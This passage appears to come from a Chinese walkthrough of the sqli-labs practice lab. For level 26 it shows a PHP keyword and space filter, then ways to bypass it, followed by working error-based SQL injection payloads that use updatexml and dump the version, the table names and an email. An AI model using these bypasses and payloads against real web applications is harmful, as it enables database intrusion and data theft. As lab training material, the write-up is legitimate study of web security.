 ```python
[2]mysql
[3]performance_schema
[4]security
['information_schema', 'challenges', 'mysql', 'performance_schema', 'security']
[*]Searching the current database name...
[*]security
[+]security
'''
```

## Less 26

Description: GET / Error based / All your SPACES & COMMENTS belong to us

```php
function blacklist($id) {
	$id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id); //Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
	$id= preg_replace('/[--]/',"", $id); //Strip out --
	$id= preg_replace('/[#]/',"", $id);	//Strip out #
	$id= preg_replace('/[\s]/',"", $id); //Strip out spaces
   	//\s匹配任何空白字符，包括空格、制表符、换页符等等
	$id= preg_replace('/[\/\\\\]/',"", $id); //Strip out slashes
	return $id;
}
```

在`Less 25`的基础上过略了空格和注释符，常见的bypass空格方法:

- 双写空格/换行符/制表符绕过(linfeed`%0a`、tab`%09`、NBSP:Non-breaking Space`%a0`)

- 注释符`/**/`、`()`、反引号绕过

```sql
# /**/
select/**/username/**/from/**/user/**/where/**/id=1;
# ()
select(username)from(user)where(id=1);
# `
select*from`user`where`id`=1;
```
Payload:

```sql
# NBSP：Non-breaking Space %a0
id=2333'%a0||%a0updatexml(1,concat(0x7e,(SELECT%0a@@version),0x7e),1)='1
#  XPATH syntax error: '~5.5.44-0ubuntu0.14.04.1~' 
# ()
id=2333'||updatexml(1,concat(0x7e,(select(group_concat(table_name))\
from(infoorrmation_schema.tables)\
where(table_schema=database())),0x7e),1)='1
# XPATH syntax error: '~emails,referers,uagents,users~'
# 反引号 `
id=2333'||updatexml(1,concat(0x7e,(select`email_id`\
from`emails`where`id`=1),0x7e),1)='1
# XPATH syntax error: '~Dumb@dhakkan.com~'
```
## Less 26a*
